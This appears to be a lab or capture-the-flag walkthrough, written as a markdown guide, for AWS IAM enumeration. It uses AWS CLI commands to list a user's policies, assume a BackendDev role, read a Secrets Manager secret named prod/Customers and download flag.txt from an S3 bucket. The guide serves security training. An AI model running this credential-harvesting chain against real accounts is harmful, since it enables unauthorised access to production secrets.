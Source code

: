 # AWS IAM Enumeration and Role Assumption Guide

This documentation provides a step-by-step guide for enumerating AWS IAM permissions, assuming a role, and accessing Secrets Manager secrets. This guide is intended for educational purposes and should be used responsibly.

---

## Table of Contents

1. [Prerequisites](#prerequisites)
2. [Configure AWS CLI](#configure-aws-cli)
3. [Enumerate IAM User Policies](#enumerate-iam-user-policies)
4. [Assume a Role](#assume-a-role)
5. [Access Secrets Manager](#access-secrets-manager)
6. [Access S3 Bucket](#access-s3-bucket)
7. [Troubleshooting](#troubleshooting)

---

## Prerequisites

- **AWS CLI** installed on your system.
- **Basic Linux command line knowledge**.
- AWS IAM credentials (Access Key ID and Secret Access Key).

---

## 1. Configure AWS CLI

Configure the AWS CLI with the provided credentials. **Do not share your credentials in public repositories.**

```bash
aws configure
```

When prompted, enter the following (use placeholder values):

- **AWS Access Key ID**: `AKIAxxxxxxxxxxxxxxxx`
- **AWS Secret Access Key**: `wJalrxxxxxxxxxxxxxxxxxxxxxxxxxx`
- **Default region name**: `us-west-1`
- **Default output format**: `json`

Verify your configuration:

```bash
aws sts get-caller-identity
```

---

## 2. Enumerate IAM User Policies

Check the IAM user’s permissions to identify policies and roles attached to the user.

### List Attached User Policies

```bash
aws iam list-attached-user-policies --user-name dev01
```

### List Inline Policies

```bash
aws iam list-user-policies --user-name dev01
```

### Get Inline Policy Details

```bash
aws iam get-user-policy --user-name dev01 --policy-name S3_Access
```

---

## 3. Assume a Role

If the user has permission to assume a role (e.g., `BackendDev`), follow these steps:

### Assume the Role

```bash
aws sts assume-role --role-arn arn:aws:iam::123456789012:role/BackendDev --role-session-name BackendDevSession
```

### Extract Temporary Credentials

The command returns a JSON response with temporary credentials:

```json
{
    "Credentials": {
        "AccessKeyId": "ASIAXXXXXXXXXXXX",
        "SecretAccessKey": "wJalrXXXXXXXXXXX",
        "SessionToken": "IQoJb3JpZ2...",
        "Expiration": "2024-06-01T12:34:56Z"
    }
}
```

### Export Temporary Credentials

```bash
export AWS_ACCESS_KEY_ID="your_temporary_AccessKeyId"
export AWS_SECRET_ACCESS_KEY="your_temporary_SecretAccessKey"
export AWS_SESSION_TOKEN="your_temporary_SessionToken"
```

### Verify Role Assumption

```bash
aws sts get-caller-identity
```

---

## 4. Access Secrets Manager

Once you’ve assumed the role, list and retrieve secrets from AWS Secrets Manager.

### List Secrets

```bash
aws secretsmanager list-secrets
```

### Retrieve a Secret

```bash
aws secretsmanager get-secret-value --secret-id prod/Customers
```

### Display the Secret

```bash
aws secretsmanager get-secret-value --secret-id prod/Customers --query SecretString --output text
```

---

## 5. Access S3 Bucket

The IAM user may have specific permissions to access a bucket (e.g., `hl-dev-artifacts`).

### List Contents of the Bucket

```bash
aws s3 ls s3://hl-dev-artifacts
```

### Download a File (e.g., `flag.txt`)

```bash
aws s3 cp s3://hl-dev-artifacts/flag.txt .
```

### View the File

```bash
cat flag.txt
```

---

## 6. Troubleshooting

### Access Denied Errors

- Ensure the IAM user has the required permissions.
- Check for any restrictive policies attached to the user or role.

### Invalid Credentials

- Verify that your AWS Access Key, Secret Access Key, and Session Token (if assuming a role) are correctly set.

### Role Assumption Fails

- Confirm that the role trust policy allows your IAM user to assume the role.

---



